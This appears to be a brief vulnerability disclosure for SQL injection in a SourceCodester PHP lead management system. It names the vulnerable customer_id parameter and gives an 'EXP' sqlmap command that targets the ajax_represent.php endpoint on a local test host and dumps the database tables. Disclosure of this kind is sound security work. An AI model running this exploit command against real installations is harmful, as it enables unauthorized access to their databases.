 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $customer_id

The process of vulnerability discovery is as follows：

![image-20221219173346292](C:\markdown\images\image-20221219173346292.png)

EXP

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/ajax_represent.php" --data "customer_id=1" --dbms=mysql -D penglead --tables
```

![image-20221219173436730](C:\markdown\images\image-20221219173436730.png)